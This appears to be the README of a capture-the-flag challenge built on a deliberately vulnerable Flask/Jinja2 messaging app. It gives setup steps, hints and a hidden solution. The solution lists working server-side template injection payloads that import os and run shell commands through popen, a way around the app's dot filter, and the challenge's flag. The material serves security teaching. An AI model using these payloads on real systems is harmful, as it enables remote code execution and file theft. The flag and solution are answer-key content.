 # SSTI CTF Challenge

A Server-Side Template Injection (SSTI) challenge created with Flask and Jinja2 templates.

## Challenge Description

This challenge involves a simple messaging service that contains a Server-Side Template Injection vulnerability. Your goal is to exploit this vulnerability to retrieve the hidden flag.

## Deployment Instructions

### Using Docker Compose (Recommended)

1. Make sure you have Docker and Docker Compose installed.
2. Run the following command to build and start the container:

```
docker-compose up -d
```

3. Access the challenge at `http://localhost:5000`

### Manual Setup

1. Install the required Python packages:

```
pip install -r requirements.txt
```

2. Run the Flask application:

```
python app/app.py
```

3. Access the challenge at `http://localhost:5000`

## Challenge Hints

1. The messaging service doesn't properly sanitize the input.
2. Jinja2 templates can execute Python code under certain conditions.
3. The admin page contains the flag, but how can you access it without directly visiting the page?
4. The application blocks the dot character ('.'), so you must use bracket notation (e.g. foo['bar']) instead of dot notation.

## Solution

<details>
<summary>Click to reveal solution</summary>

This challenge involves a Server-Side Template Injection vulnerability in a Flask application using Jinja2 templates.

1. **Identify the vulnerability**: Go to the "Leave a Message" page and test for SSTI by entering template syntax in the name field.

   - Try `{{7*7}}` - If this renders as 49, it confirms the SSTI vulnerability exists
   - This works because the user input is directly inserted into a template without proper sanitization

2. **Basic enumeration**: Explore the application context to gather information.

   - `{{config}}` - Reveals the Flask configuration
   - `{{config.items()}}` - Shows configuration as key-value pairs
   - These work because Jinja2 templates have access to the Flask application context

3. **Working around restrictions**: The application blocks the dot character (`.`), so we must use bracket notation.

   - Instead of `object.attribute`, we use `object['attribute']`
   - This bypass works because both notations access attributes in Python, but the filter only blocks the dot syntax

4. **Getting remote code execution**: Access Python's built-in functions to execute system commands.

   - `{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}`
   - This payload works by:
     - Starting with the `request` object (available in templates)
     - Accessing the application context
     - Reaching Python's built-in functions through `__globals__` and `__builtins__`
     - Using `__import__` to import the `os` module
     - Executing `ls` command with `popen` and reading the output

5. **Retrieving part 1 of the flag**: Access the FLAG variable stored in the app module.

   - `{{request['application']['__globals__']['__builtins__']['__import__']('app')['__dict__']['FLAG']}}`
   - This accesses the app module's dictionary to find the FLAG variable defined in the application

6. **Retrieving part 2 of the flag**: Read the flag.txt file from the filesystem.

   - `{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag*')['read']()}}`
   - We use the wildcard `*` to bypass the blacklisted dot `.` in the filename

7. **Combining the flags**: Put both parts together to get the complete flag.
   - The final flag is: `ETHACK{es_es_ti_ai_ahayahay}`

</details>
